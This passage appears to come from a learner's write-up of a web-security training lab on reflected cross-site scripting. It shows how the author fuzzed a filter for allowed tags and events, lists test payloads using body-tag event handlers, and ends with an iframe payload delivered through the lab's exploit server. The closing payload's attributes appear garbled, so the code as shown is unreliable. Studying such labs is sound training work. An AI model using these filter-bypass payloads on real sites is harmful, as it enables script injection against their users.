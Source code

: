 --> i found that `custom tags` and `<body>` tags are accepted.

![](Attachments/Pastedimage20211026143657.png)

--> Now we know that we can use `body` tag so let's now brute force for events.

I used this payload :

```markup
<body id=x tabindex=1 onactivate=alert(1)></body>
```

And i found `onresize` event is accepted.

![](Attachments/Pastedimage20211026144237.png)

--> So i searched for payload with body tag and onresize event and then i found this payload

```markup
<body onresize="print()">
```

--> but unfortunately it didn't worked :(

==> And we have to goto `exploit-server` tab and then enter your payload and then click `deliver exploit to victim`

Then i tried this payload and it worked !

```html
<iframe
  src="https://ac721f141f257377c03016fb002900d7.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"
  onload="this.style.width"
  ="100px"
>
</iframe>
```
